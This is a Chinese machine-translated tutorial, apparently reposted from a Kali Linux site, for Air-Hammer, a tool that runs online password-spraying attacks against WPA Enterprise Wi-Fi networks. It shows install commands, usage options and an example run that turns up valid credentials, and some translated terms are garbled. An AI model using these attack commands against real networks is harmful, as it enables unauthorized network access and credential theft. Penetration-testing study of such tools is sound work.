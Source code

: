 # 空气锤——一种在线暴力攻击工具

> 原文：<https://kalilinuxtutorials.com/air-hammer-brute-force-attack/>

Air-Hammer 是一个在线暴力攻击工具，用于攻击 WPA 企业网络。尽管 WPA Enterprise 通常被认为比 WPA-PSK“更安全”,但它同样具有更大的攻击面。虽然 WPA-PSK 系统只有一个合法的密码，但是可能有大量的用户名和密码组合来允许访问一个单独的 WPA 企业网络。此外，用于访问 WPA 企业网络的密码通常由最终客户选择，其中许多人选择非常基本的密码。

## **安装依赖关系**

Air-Hammer 已经在当前版本的 Kali Linux 上构建和使用。除了缺省情况下 Kali Linux 附带的软件包之外，还需要安装以下依赖项:

*   **[python-wpa-恳求者](https://github.com/digidotcom/python-wpa-supplicant) :**

```
 `root@kali:~# pip install wpa_supplicant` 
```

**也读作 [材质成分为安卓](http://kalilinuxtutorials.com/material-components/)**

## **其他要求**

Air-Hammer 需要一个对目标网络有效的用户名列表才能运行。创建这个列表的一些基本建议包含在我的博客中概述的攻击链的[步骤 2 中。](http://mikeallen.org/blog/2016-10-06-breaking-into-wpa-enterprise-networks-with-air-hammer/#attack-chain)

## **空气锤用法**

`-h`或`--help`标志可用于显示空气锤的使用说明。

```
**root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)** 
```

## **例子**

下面是使用 wlan0 的标准攻击，目标是“Test-Network”无线网络，密码为“UserPassword1”，用户名列表存储在文件“usernames.txt”中。

```
**root@kali:~# ./air-hammer.py -i wlan0 -e Test-Network -P UserPassword1 -u usernames.txt 
[0]  Trying alice:UserPassword1...
[1]  Trying bob:UserPassword1...
[2]  Trying charlotte:UserPassword1...
[3]  Trying dave:UserPassword1...
[4]  Trying wifiuser:UserPassword1...
[!] VALID CREDENTIALS: wifiuser:UserPassword1
[5]  Trying wrongUser05:UserPassword1...
[6]  Trying wrongUser06:UserPassword1...** 
```

## **截图**

![](img//c496d76894ea5d74b3d33bbc36037908.png)

[![](img//a51de913dc60eee505c4a68651ee8e4d.png)](https://github.com/Wh1t3Rh1n0/air-hammer/#installing-dependencies)